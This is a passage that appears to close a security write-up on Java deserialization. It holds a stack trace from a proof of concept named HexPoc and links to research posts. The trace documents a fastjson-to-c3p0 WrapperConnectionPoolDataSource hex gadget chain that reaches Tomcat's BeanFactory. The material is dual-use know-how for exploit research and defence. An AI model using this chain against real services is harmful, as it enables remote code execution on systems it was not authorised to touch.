at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at org.apache.naming.factory.BeanFactory.getObjectInstance(BeanFactory.java:210)
at com.mchange.v2.naming.ReferenceableUtils.referenceToObject(ReferenceableUtils.java:93)
at com.mchange.v2.naming.ReferenceIndirector$ReferenceSerialized.getObject(ReferenceIndirector.java:118)
at com.mchange.v2.ser.SerializableUtils.fromByteArray(SerializableUtils.java:125)
at com.mchange.v2.c3p0.impl.C3P0ImplUtils.parseUserOverridesAsString(C3P0ImplUtils.java:318)
at com.mchange.v2.c3p0.WrapperConnectionPoolDataSource$1.vetoableChange(WrapperConnectionPoolDataSource.java:110)
at java.beans.VetoableChangeSupport.fireVetoableChange(VetoableChangeSupport.java:375)
at java.beans.VetoableChangeSupport.fireVetoableChange(VetoableChangeSupport.java:271)
at com.mchange.v2.c3p0.impl.WrapperConnectionPoolDataSourceBase.setUserOverridesAsString(WrapperConnectionPoolDataSourceBase.java:387)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.alibaba.fastjson.parser.deserializer.FieldDeserializer.setValue(FieldDeserializer.java:96)
at com.alibaba.fastjson.parser.deserializer.DefaultFieldDeserializer.parseField(DefaultFieldDeserializer.java:83)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.parseField(JavaBeanDeserializer.java:773)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:600)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:188)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:184)
at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:368)
at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:517)
at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1327)
at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1293)
at com.alibaba.fastjson.JSON.parse(JSON.java:137)
at com.alibaba.fastjson.JSON.parse(JSON.java:128)
at com.alibaba.fastjson.JSON.parseObject(JSON.java:201)
at org.example.HexPoc.main(HexPoc.java:29)
```


> https://forum.butian.net/share/2868
>
> https://su18.org/post/ysoserial-su18-5/#c3p0
>
> https://baozongwi.xyz/p/java-secondary-deserialization/#wrapperconnectionpooldatasource
>
> https://goodapple.top/archives/1749
